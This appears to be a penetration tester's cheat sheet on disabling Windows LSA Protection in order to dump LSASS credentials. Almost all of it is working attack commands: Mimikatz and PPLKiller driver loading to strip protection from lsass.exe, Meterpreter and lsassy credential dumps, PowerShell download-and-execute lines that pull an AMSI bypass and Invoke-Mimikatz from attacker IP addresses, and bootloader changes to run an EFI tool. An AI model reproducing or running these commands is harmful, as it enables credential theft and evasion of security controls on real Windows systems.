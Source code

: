        //Microsoft Mitigations:
            //LSA Protection
                //additional integrity level - Protected Processes Light (PPL) - not all System processes can interact with it
                //disabled by default for LSASS, but check! - RunAsPPL DWORD value at HKLM\SYSTEM\CurrentControlSet\Control\Lsa
                    //Check:  Get-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\Lsa -Name "RunAsPPL"
                //*Solution w/ Mimikatz (requires mimidrv.sys to be uploaded):
                    !+          //load mimidrv.sys driver
                    !processprotect /process:lsass.exe /remove          //disable PPL protection    
                //Meterpreter:
                    load kiwi
                    lsa_dump_secrets
                    lsa_dump_sam
                //**Better Method - PPLKiller:
                    reg add HKLM\SYSTEM\CurrentControlSet\Services\LanmanWorkstation\Parameters /t REG_DWORD /v AllowInsecureGuestAuth /d 1 /f
                    \\192.168.45.210\visualstudio\PPLKiller\x64\Release\PPLKiller.exe /installDriver
                    \\192.168.45.210\visualstudio\PPLKiller\x64\Release\PPLKiller.exe /disableLSAProtection
                    <perform dump>
                    \\192.168.45.210\visualstudio\PPLKiller\x64\Release\PPLKiller.exe /uninstallDriver
                //**Remotely - lsassy:
                    lsassy [-d domain] -u pixis -p P4ssw0rd targets
                    lsassy [-d domain] -u pixis -H [LM:]NT targets
                //*In-Memory (mostly) Solution:
                    //upload mimidrv.sys to target
                    sc create mimidrv binPath= C:\tmp\mimidrv.sys type= kernel start= demand
                    sc start mimidrv
                    //In PS:
                        (New-Object System.Net.WebClient).DownloadString('http://192.168.49.69/AMSI.txt') | IEX
                        (New-Object System.Net.WebClient).DownloadString('http://192.168.49.69/mimikatz.txt') | IEX
                        Invoke-Mimikatz -Command "`"!processprotect /process:lsass.exe /remove`"" 
                            *might be flagged by Defender, but once is probably ok (then use minidump, etc.)
                //**Automated:
                    (New-Object System.Net.WebClient).DownloadString('http://192.168.45.210/DisableLSA.ps1') | IEX
                    //Disable-LSA.ps1:
                        # Load
                        (New-Object System.Net.WebClient).DownloadString('http://192.168.45.210/Invoke-Mimikatz.ps1') | IEX
                        (New-Object System.Net.WebClient).DownloadFile("http://192.168.45.210/mimidrv.sys",'C:\inetpub\wwwroot\upload\mimidrv.sys')

                        # Execute
                        cmd /c "sc query mimidrv || (sc create mimidrv binPath= C:\inetpub\wwwroot\upload\mimidrv.sys type= kernel start= demand && sc start mimidrv)"
                        Invoke-Mimikatz -Command "`"!processprotect /process:lsass.exe /remove`""
                //Another Method:
                    mountvol X: /s
                    copy C:\LSAPPLConfig.efi X:\EFI\Microsoft\Boot\LSAPPLConfig.efi /Y
                    bcdedit /create {0cb3b571-2f2e-4343-a879-d86a476d7215} /d "DebugTool" /application osloader
                    bcdedit /set {0cb3b571-2f2e-4343-a879-d86a476d7215} path "\EFI\Microsoft\Boot\LSAPPLConfig.efi"
                    bcdedit /set {bootmgr} bootsequence {0cb3b571-2f2e-4343-a879-d86a476d7215}
                    bcdedit /set {0cb3b571-2f2e-4343-a879-d86a476d7215} loadoptions %1
                    bcdedit /set {0cb3b571-2f2e-4343-a879-d86a476d7215} device partition=X:
                    mountvol X: /d
                    shutdown -r -t 0
            //Windows Defender Credential Guard
                //*Check if running:
                    $DevGuard = Get-CimInstance –ClassName Win32_DeviceGuard –Namespace root\Microsoft\Windows\DeviceGuard; if ($DevGuard.SecurityServicesConfigured -contains 1) {"Credential Guard configured"}; if ($DevGuard.SecurityServicesRunning -contains 1) {"Credential Guard running"}